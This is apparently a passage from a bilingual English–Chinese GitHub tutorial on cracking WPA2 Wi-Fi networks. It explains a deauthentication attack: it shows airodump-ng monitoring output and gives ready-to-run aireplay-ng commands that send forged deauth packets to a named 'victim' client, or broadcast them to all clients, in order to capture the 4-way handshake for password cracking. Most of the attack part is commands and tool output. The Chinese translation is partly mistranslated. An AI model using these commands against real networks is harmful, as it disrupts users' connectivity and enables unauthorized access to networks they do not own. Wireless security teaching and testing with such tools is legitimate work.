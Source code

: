 ```
```

## Deauth Attack
## 解除认证攻击

A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to crack. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect, providing you with a 4-way handshake if you are listening with `airodump-ng`. 
解除认证攻击会将伪造的身份验证数据包从您的计算机发送到连接到您尝试破解的网络的客户端。 这些数据包包括伪造的“发件人”地址，使得它们像客户端那样从接入点本身发送出去。 收到这样的数据包后，大多数客户端断开与网络的连接，并立即重新连接，如果您正在使用`airodump-ng`进行侦听，则提供4路握手。

Use `airodump-ng` to monitor a specific access point (using `-c channel --bssid MAC`) until you see a client (`STATION`) connected. A connected client look something like this, where is `64:BC:0C:48:97:F7` the client MAC.
使用`airodump-ng`监视特定接入点（使用`-c channel --bssid MAC`），直到看到客户端（`STATION`）连接。 连接的客户端看起来像这样，`64：BC：0C：48：97：F7`是客户端MAC。

```
 CH  6 ][ Elapsed: 2 mins ][ 2017-07-23 19:15 ]                                         
                                                                                                                                           
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  -19  75     1043      144   10   6  54e  WPA2 CCMP   PSK  ASUS                                                         
                                                                                                                                           
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                 
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  64:BC:0C:48:97:F7  -37    1e- 1e     4     6479  ASUS
```

Now, leave `airodump-ng` running and open a new terminal. We will use the `aireplay-ng` command to send fake deauth packets to our victim client, forcing it to reconnect to the network and hopefully grabbing a handshake in the process.
现在，让`airodump-ng`运行并打开一个新的终端。 我们将使用`aireplay-ng`命令向我们的受害者客户端发送假的接触认证数据包，强制其重新连接到网络，并希望在此过程中抓取握手。

```bash
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```

You can optionally broadcast deauth packets to all connected clients with:
你可以选择得通过广播接触认证数据包到所有连接的客户端：

```bash
# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```
